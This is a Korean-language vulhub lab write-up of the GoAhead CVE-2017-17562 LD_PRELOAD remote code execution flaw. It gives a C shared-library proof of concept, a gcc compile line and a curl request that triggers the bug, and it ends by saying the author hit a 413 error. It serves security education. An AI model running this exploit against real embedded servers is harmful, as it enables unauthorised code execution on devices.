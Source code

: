 # Whitehat School `vulhub` 한글판

# goahead/CVE-2017-17562

**Contributors**
[정예진_yejin0719](https://github.com/yejin0719)

# GoAhead 웹 서버 HTTPd 'LD_PRELOAD' 원격 코드 실행 (CVE-2017-17562)

Embedthis GoAhead는 수억 개의 장치에 배포되고 가장 작은 임베디드 장치에 이상적인 세계에서 가장 인기 있는 작은 임베디드 웹 서버이다.

3.6.5 이전의 GoAhead에서는 CGI가 활성화되고 CGI 프로그램이 동적으로 링크된 경우 원격 코드 실행을 허용한다. 이는 `cgi.c`의 cgiHandler 함수에서 신뢰할 수 없는 HTTP 요청 매개변수를 사용하여 분기된 CGI 스크립트의 환경을 초기화한 결과이다. glibc 동적 링커와 결합하면 `LD_PRELOAD`와 같은 특수 매개변수 이름을 사용하는 원격 코드 실행에 이 동작이 남용될 수 있다. 공격자는 요청 본문에 공유 객체 페이로드를 게시하고 /proc/self/fd/0을 사용하여 이를 참조 가능하다.

참조:
 - https://www.elttam.com.au/blog/goahead/
 - https://www.exploit-db.com/exploits/43360
 - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb

 # 취약한 환경
GoAhead 3.6.4를 시작하려면 다음 명령을 실행한다.

```
docker compose up -d
```
그런 다음 'http://your-ip:8080'에서 환영 페이지를 볼 수 있고, CGI 스크립트는 'http://your-ip:8080/cgi-bin/index'에서 사용할 수 있다.

# 악용
우선, 이 하이재킹 코드를 동적 공유 라이브러리로 컴파일한다.

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

> GoAhead는 거의 모든 IoT 장치에서 실행되는 소형 임베디드 웹서버이므로 동적 공유 라이브러리의 형식은 항상 대상 서버 아키텍처에 따라 달라진다. 실제 세계에서는 Vulhub가 가장 간단한 예를 보여줄 수 있지만 익스플로잇을 컴파일하는 것은 이 매뉴얼에서 제안하는 것만큼 쉽지 않다.

x86/64 환경에서 컴파일:
```
gcc -shared -fPIC ./payload.c -o payload.so
```

공격을 트리거하려면 curl을 사용:
```
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

응답 헤더 `Hello: world!`가 인쇄되어 코드가 실행되었음을 나타낸다.

![](result1.png)

HTTP/1.1 413 Request too large 오류가 발생했고, 이를 해결하지 못해 올바른 결과값을 도출해내지 못하였다.